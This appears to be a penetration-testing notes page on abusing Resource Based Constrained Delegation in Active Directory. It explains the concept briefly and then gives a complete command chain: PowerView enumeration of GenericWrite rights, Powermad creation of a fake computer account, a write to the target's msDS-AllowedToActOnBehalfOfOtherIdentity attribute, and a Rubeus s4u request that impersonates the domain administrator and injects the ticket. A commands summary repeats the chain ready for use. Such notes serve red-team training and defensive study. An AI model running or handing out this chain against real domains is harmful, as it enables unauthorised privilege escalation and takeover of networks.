 # Resource Based Constrained Delegation \(RBCD\)

## Resource Based Constrained Delegation \(RBCD\)

RBCD needs to happen from a computer account or a service account with a SPN.  
  
Attack can be done if a frontend service has a SID configured into the msDS- AllowedToActOnBehalfOfOtherIdentity property backend service.  
  
  
**msDSAllowedToActOnBehalfOfOtherIdentity** property controls delegation from the backend service  
  
To turn RBCD on, we need to write the SID frontend into a new propriety of the backend service.  
  
 → SeEnableDelegationPrivilege permissions are not required  
 → RBCD can typically be configured by the backend service administrator instead  
 → the frontend service must have an SPN set in the domain &gt; Computer Account  
  
  
S4U2Self forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.  
  
The KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.

### **Attack Path** 

* Compromise a domain account which have genericwrite on a computer account object.
* Add a new computer machine and force a password on it  \(user can add up to 10 computers by default\)

{% hint style="warning" %}
GenericAll, WriteProperty, GenericWrite or WriteDACL can be used to add change the SID on a computer object
{% endhint %}

Constrained Delegation Requirements :  
  
- Constrained Delegation = SPN on the frontend service \(msDSAllowedToDelegateTo propriety\)  
- SeEnableDelegationPrivilege priv

### Enumeration

#### Find GenericWrite access on a Computer Object

```csharp
 Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

![](../../../../.gitbook/assets/image%20%28105%29.png)

#### Computer Domain Join 

```csharp
 Get-DomainObject -Identity badcorp.local  -Properties ms-DS-MachineAccountQuota
```

![](../../../../.gitbook/assets/image%20%28142%29.png)

### Create a new machine account

#### Load powermad

```csharp
. .\powermad.ps1
New-MachineAccount -MachineAccount fakeComputer -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

![](../../../../.gitbook/assets/image%20%28293%29.png)

![](../../../../.gitbook/assets/image%20%285%29.png)

`msDS-AllowedToActOnBehalfOfOtherIdentity` property stores the SID as part of a security descriptor in a binary format which needs to be converted.

```csharp
$sid =Get-DomainComputer -Identity fakeComputer1 -Properties objectsid | Select -Expand objectsid
```

![](../../../../.gitbook/assets/image%20%28257%29%20%281%29.png)

* Instantiate a SecurityDescriptor object using RawSecurityDescriptor Class:

```csharp
$SecDesc = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

![](../../../../.gitbook/assets/image%20%28102%29.png)

* convert it into a byte array to match the format for the `msDS-AllowedToActOnBehalfOfOtherIdentity` property:

```csharp
$sdFormat = New-Object byte[] ($SecDesc.BinaryLength)
$SecDesc.GetBinaryForm($sdFormat,0)
```

#### Abuse GenericWrite on the target server

```csharp
 Get-DomainComputer -Identity targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
 $RBCD  = Get-DomainComputer targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
 $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
 $Descriptor.DiscretionaryAcl
```

![](../../../../.gitbook/assets/image%20%28118%29.png)

### Get a TGS using the fakeComputer account

#### Rubeus

```csharp
.\Rubeus.exe hash /password:Password123
.\Rubeus.exe s4u /user:fakeComputer /rc4:58A478135A93AC3BF058A5EA0E8FDB71  /impersonateuser:administrator /msdsspn:CIFS/targetServer.test.lab.local /ptt
```

![](../../../../.gitbook/assets/image%20%28246%29.png)

###  Commands summary

```csharp
New-MachineAccount -MachineAccount polo1 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-DomainComputer -Identity polo1
$sid =Get-DomainComputer -Identity polo1 -Properties objectsid |Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity TARGETSERVER | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
$RBCDbytes = Get-DomainComputer polo1 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
```

### Resources

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}







